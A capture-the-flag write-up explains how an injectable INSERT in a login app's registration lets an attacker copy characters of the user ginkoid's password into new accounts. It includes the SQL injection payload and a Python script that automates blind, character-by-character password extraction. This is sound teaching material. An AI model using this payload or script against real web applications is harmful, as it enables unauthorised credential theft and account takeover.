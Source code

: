 The injectable query is an `INSERT` statement. One thing to note is that the password must be less than 50 characters long, thus limiting the length of our SQL injection. The process to extract ginkoid's password is the following:

1. Create a new user with any username and a password that is one character of ginkoid's password at some index i, starting with i=0.
    - This can be done by injecting a sub-query that selects ginkoid's password from the `user` table and taking a substring at index i of length 1.
    - The following injection works to create the password `'||(SELECT substr(password,1,1) FROM users))--`.
2. Do a blind SQL injection on the newly created user. Iterate through each alphanumeric character and try to log in. When you log in successfully, you know the character that is at index i of ginkoid's password.
3. Repeat this process 32 times, incrementing i by 1 each time. Gradually extract ginkoid's password one character at a time.

I wrote the following script to automate this process:

```python
import requests

allowed_chars = list('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789')

def main():
	user_prefix = "deadbeef"
	endpoint = "https://cool.mc.ax/"
	
	password = ""
	
	for i in range(1,33):
		current_user = user_prefix + allowed_chars[i]
		
		print("creating user " + current_user)
		
		obj = {
			'username': current_user,
			'password': f"'||(SELECT substr(password,{i},1) FROM users))--"
		}
		ret = requests.post(endpoint + "register", data=obj)
		
		j = 0
		while (True):
			obj2 = {
				'username': current_user,
				'password': allowed_chars[j]
			}
			login_ret = requests.post(endpoint, obj2)
			
			if "You are logged in!" in login_ret.text:
				password += allowed_chars[j]
				print(password)
				break
			
			j += 1

main()
```

